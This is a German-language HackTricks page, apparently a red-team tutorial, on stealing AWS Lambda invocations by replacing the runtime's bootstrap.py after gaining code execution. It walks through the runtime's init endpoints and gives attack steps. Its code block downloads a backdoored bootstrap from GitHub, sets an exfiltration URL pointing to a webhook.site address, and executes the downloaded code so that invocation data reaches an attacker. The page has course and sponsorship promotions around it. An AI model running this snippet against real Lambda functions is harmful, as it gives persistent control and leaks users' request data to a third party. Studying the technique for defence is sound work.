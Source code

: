 # AWS - Lambda-Anfragen stehlen

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Lambda-Fluss

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ist ein Prozess außerhalb des Containers, der **Aufrufe** an den **init**-Prozess sendet.
2. Der init-Prozess hört auf Port **9001** und stellt einige interessante Endpunkte bereit:
* **`/2018-06-01/runtime/invocation/next`** – erhält das nächste Aufrufereignis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gibt die Handler-Antwort für den Aufruf zurück
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gibt einen Ausführungsfehler zurück
3. **bootstrap.py** hat eine Schleife, die Aufrufe vom init-Prozess abruft und den Benutzercode aufruft, um sie zu verarbeiten (**`/next`**).
4. Schließlich sendet **bootstrap.py** die **Antwort** an init.

Beachten Sie, dass Bootstrap den Benutzercode als Modul lädt, sodass alle Codeausführungen, die vom Benutzercode durchgeführt werden, tatsächlich in diesem Prozess stattfinden.

## Lambda-Anfragen stehlen

Das Ziel dieses Angriffs ist es, den Benutzercode dazu zu bringen, einen bösartigen **`bootstrap.py`**-Prozess innerhalb des **`bootstrap.py`**-Prozesses auszuführen, der die verwundbare Anfrage verarbeitet. Auf diese Weise wird der **bösartige Bootstrap**-Prozess beginnen, mit dem init-Prozess zu **kommunizieren**, um die Anfragen zu verarbeiten, während der **legitime** Bootstrap gefangen ist und den bösartigen ausführt, sodass er keine Anfragen an den init-Prozess stellt.&#x20;

Dies ist eine einfache Aufgabe, da der Code des Benutzers vom legitimen **`bootstrap.py`**-Prozess ausgeführt wird. Der Angreifer könnte also:

* **Eine gefälschte Ergebnis des aktuellen Aufrufs an den init-Prozess senden**, damit init denkt, dass der Bootstrap-Prozess auf weitere Aufrufe wartet.
* Eine Anfrage muss an **`/${invoke-id}/response`** gesendet werden.&#x20;
* Die invoke-id kann aus dem Stack des legitimen **`bootstrap.py`**-Prozesses mithilfe des [**inspect**](https://docs.python.org/3/library/inspect.html)-Python-Moduls (wie [hier vorgeschlagen](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) oder einfach erneut an **`/2018-06-01/runtime/invocation/next`** angefordert werden (wie [hier vorgeschlagen](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Führen Sie einen bösartigen **`bootstrap.py`** aus, der die nächsten Aufrufe verarbeitet.
* Zu Stealth-Zwecken können die Lambda-Aufrufparameter an ein vom Angreifer kontrolliertes C2 gesendet und dann die Anfragen wie gewohnt verarbeitet werden.
* Für diesen Angriff reicht es aus, den Originalcode von **`bootstrap.py`** aus dem System oder von [**GitHub**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) zu erhalten, den bösartigen Code hinzuzufügen und ihn aus dem aktuellen Lambda-Aufruf auszuführen.

### Angriffsschritte

1. Finden Sie eine **RCE**-Verwundbarkeit.
2. Generieren Sie einen **bösartigen** **Bootstrap** (z. B. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Führen** Sie den bösartigen Bootstrap aus.

Diese Aktionen können Sie problemlos ausführen, indem Sie:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Für weitere Informationen siehe [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referenzen

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
